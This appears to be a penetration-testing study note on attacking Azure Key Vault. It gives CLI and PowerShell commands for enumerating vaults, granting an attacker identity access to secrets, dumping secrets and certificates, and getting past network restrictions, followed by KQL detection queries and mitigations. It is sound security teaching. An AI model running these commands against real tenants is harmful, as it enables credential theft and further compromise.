

# 08 - Azure Key Vault Extraction and Secrets Dumping

## 1. Introduction to Azure Key Vault

Azure Key Vault is a cloud service for securely storing and accessing secrets. A secret is anything that you want to tightly control access to, such as API keys, passwords, certificates, or cryptographic keys. Because Key Vault is the central repository for an organization's most sensitive material, it is a primary target during any Azure penetration test or red team engagement.

Compromising an identity that has access to a Key Vault often leads to the cascading compromise of other systems, databases, and sometimes even the entire Azure environment.

## 2. Architecture: Management Plane vs. Data Plane

Understanding the difference between the Management Plane and the Data Plane is critical for attacking and defending Key Vaults:

- **Management Plane (Control Plane):** Handled by Azure Resource Manager (`management.azure.com`). Determines who can manage the Key Vault itself (e.g., create, delete, update properties, change access policies). Permissions here are governed by standard Azure RBAC (e.g., `Contributor`, `Owner`).
- **Data Plane:** Handled by the Key Vault endpoint (`vault.azure.net`). Determines who can read, write, or delete the actual contents (secrets, keys, certificates). Permissions here are governed by either **Key Vault Access Policies** or **Azure RBAC for Key Vault** (e.g., `Key Vault Secrets User`).

**Crucial Attack Concept:** If an attacker has `Contributor` access to the Management Plane, they do not inherently have access to the Data Plane. However, they can *grant themselves* Access Policies or RBAC roles to access the Data Plane.

## 3. The Attack Flow (ASCII Diagram)



## 4. Enumerating Key Vaults

The first step is to locate Key Vaults within the compromised subscription and determine the authorization model (Access Policies vs Azure RBAC).

Using Azure CLI:
```bash
# List all Key Vaults
az keyvault list --output table

# Show details of a specific vault (check properties.enableRbacAuthorization)
az keyvault show --name <VaultName> --resource-group <RG>
```

If `enableRbacAuthorization` is false, it uses Access Policies. If true, it uses Azure RBAC.

## 5. Escalating Privileges to Access the Data Plane

If the attacker has `Contributor` rights over the resource group or subscription but gets an "Access Denied" when trying to read secrets, they must grant themselves access.

**Method 1: Modifying Key Vault Access Policies**
If the vault uses Access Policies, the attacker can add their own user or Service Principal:
```bash
az keyvault set-policy --name <VaultName> --upn attacker@domain.com --secret-permissions get list --key-permissions get list --certificate-permissions get list
```

**Method 2: Assigning Azure RBAC Roles**
If the vault uses RBAC, the attacker assigns themselves the `Key Vault Secrets Officer` or `Key Vault Secrets User` role:
```bash
az role assignment create --role "Key Vault Secrets Officer" --assignee attacker@domain.com --scope /subscriptions/<SubID>/resourceGroups/<RG>/providers/Microsoft.KeyVault/vaults/<VaultName>
```

## 6. Extracting and Dumping Secrets

Once data plane access is achieved, the attacker will enumerate and extract all contents.

Using Azure CLI:
```bash
# List all secrets
az keyvault secret list --vault-name <VaultName> --query "[].name" -o tsv

# Read a specific secret
az keyvault secret show --vault-name <VaultName> --name <SecretName> --query "value" -o tsv
```

### Automated Dumping with MicroBurst
Manually dumping hundreds of secrets is tedious. Attackers frequently use PowerShell tooling like NetSPI's MicroBurst.

```powershell
Import-Module .\MicroBurst.psm1
# Authenticate to Azure first using Connect-AzAccount
Get-AzureKeyVaultContent -VaultName <VaultName> -Verbose
```
This script iterates through all secrets, keys, and certificates, exporting them to the console or a local file.

### Dealing with Certificates
When certificates are stored in Key Vault, the private key is usually extractable if the attacker retrieves it as a secret.

Using PowerShell to extract a PFX:
```powershell
$secret = Get-AzKeyVaultSecret -VaultName <VaultName> -Name <CertName>
$secretBytes = [Convert]::FromBase64String($secret.SecretValueText)
[IO.File]::WriteAllBytes("C:\temp\extracted_cert.pfx", $secretBytes)
```

## 7. Bypassing Network Restrictions

Key Vaults often have Network ACLs configured (e.g., "Allow access from selected networks"). If the attacker is operating from an external IP, they will be blocked even if they have valid identity credentials.

**Bypass Techniques:**
1. **Azure Cloud Shell:** Often, Key Vaults are configured to "Allow trusted Microsoft services to bypass this firewall". Running the extraction script from the Azure Cloud Shell (which runs on Microsoft infrastructure) can sometimes bypass this.
2. **Lateral Movement to Allowed VNets:** If the Key Vault allows access from specific Virtual Networks, the attacker must compromise a VM within that VNet, or deploy a new VM into that VNet (if they have Contributor rights), and execute the extraction from there.
3. **Run Command / Custom Script Extension:** Use `az vm run-command` to execute the dumping script on an existing allowed VM.

## 8. Detection Engineering (KQL)

Detecting Key Vault dumping relies heavily on Azure Key Vault Diagnostics logs (which must be enabled and routed to Log Analytics).

**Detecting Access Policy Modifications:**
```kusto
AzureActivity
| where ResourceProviderValue == "MICROSOFT.KEYVAULT"
| where OperationNameValue == "Microsoft.KeyVault/vaults/write"
| project TimeGenerated, Caller, Resource, OperationNameValue
```

**Detecting Mass Secret Extraction (Dumping):**
```kusto
AzureDiagnostics
| where ResourceProvider == "MICROSOFT.KEYVAULT"
| where OperationName == "SecretGet"
| summarize count() by CallerIPAddress, identity_claim_upn_s, Resource
| where count_ > 10 // Threshold for mass extraction
| sort by count_ desc
```

## 9. Mitigation Strategies

1. **Adopt Azure RBAC for Key Vault:** RBAC provides tighter, more granular control and integrates seamlessly with Privileged Identity Management (PIM) for just-in-time access.
2. **Network Firewalls and Private Endpoints:** Disable public internet access entirely. Route all Key Vault traffic through Azure Private Link.
3. **Disable "Bypass for Trusted Services" if not needed:** Prevent external attacks utilizing Microsoft-hosted services (like Cloud Shell) to bypass firewalls.
4. **Soft Delete and Purge Protection:** Ensure these features are enabled so that an attacker cannot maliciously delete or ransom the Key Vault contents permanently.
5. **Monitor and Alert:** Forward Key Vault diagnostic logs to a SIEM and alert on rapid, successive `SecretGet` operations.

## 10. Chaining Opportunities

- **Pipeline to Vault:** Compromise Azure DevOps Pipeline -> Pipeline has Service Connection -> Extract token -> Use token to dump Key Vault -> Retrieve Domain Admin credentials.
- **Logic App Abuse:** Modify a Logic App that has an API connection to Key Vault to extract and exfiltrate specific secrets.
- **VM Contributor to Vault:** Attacker gains VM Contributor -> Executes `run-command` to access local IMDS -> IMDS token has Key Vault read access -> Dumps secrets.

## 11. Related Notes

- [[02 - Azure RBAC and Identity Architecture]]
- [[06 - Abusing Azure Service Principals]]
- [[07 - Azure Automation Accounts and Runbooks Exploitation]]
- [[09 - Attacking Azure DevOps CI CD Pipelines]]
